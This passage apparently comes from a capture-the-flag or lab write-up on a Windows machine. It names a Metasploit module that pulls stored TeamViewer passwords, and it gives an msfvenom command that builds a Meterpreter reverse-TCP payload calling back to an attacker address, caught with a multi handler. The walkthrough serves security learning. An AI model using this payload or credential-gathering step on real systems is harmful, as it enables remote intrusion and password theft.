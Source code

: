 We send it to our machine for review by using the `nc.exe` trick.    


<br/> 
<img src="/img/remote_screenshots/Pasted image 20241109192857.png" alt="1" style="width:700px; height:auto;">
<br/>

After some search, found using this l[ink](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/post/windows/gather/credentials/teamviewer_passwords.md) a `metasploit` module to retrieve passwords of `teamviewer` sessions including version `7`.    
We can upgrade the `shell` into a `meterpreter` shell by running this `msfvenom` payload.    

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.16.8 LPORT=4444 -f exe > shell-x64.exe
```

Open a `multi handler listener` on `metasploit`, send the `paylaod` to the target and run it to catch the `shell`.   

<br/> 
<img src="/img/remote_screenshots/Pasted image 20241109194007.png" alt="1" style="width:700px; height:auto;">
<br/>
